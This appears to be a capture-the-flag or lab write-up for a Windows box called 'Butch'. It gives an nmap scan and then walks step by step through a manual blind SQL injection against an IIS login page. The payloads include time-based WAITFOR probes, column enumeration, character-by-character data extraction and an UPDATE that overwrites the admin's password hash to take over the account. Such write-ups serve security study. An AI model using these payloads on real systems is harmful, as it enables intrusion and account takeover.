 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10'; --
```
![image](1)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1; --
```

![image](2)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1; --
```

![image](3)

```SQL
' GROUP BY users.username HAVING 1=1; --
```

![image](4)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1; --
```

![image](5)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05'; --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05'; --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Finally, we know that the password length is 64, so it may have been hashed. Because of the length of the password so I guessed that may use SHA-256 hash. (Because manually to guess all the passwords too slow and may not be able to restore the original password we try to update directly.)

![image](6)

Now we update the new password ```123456```.

```SQL
-- 123456
'; UPDATE users SET password_hash = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WHERE user = 'butch'; -- 
-- check if update is successful
'; IF (SELECT password_hash FROM users WHERE user = 'butch') = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WAITFOR DELAY '00:00:05'; -- 
```

Login with username ```butch``` and password ```123456```.

![image](7)
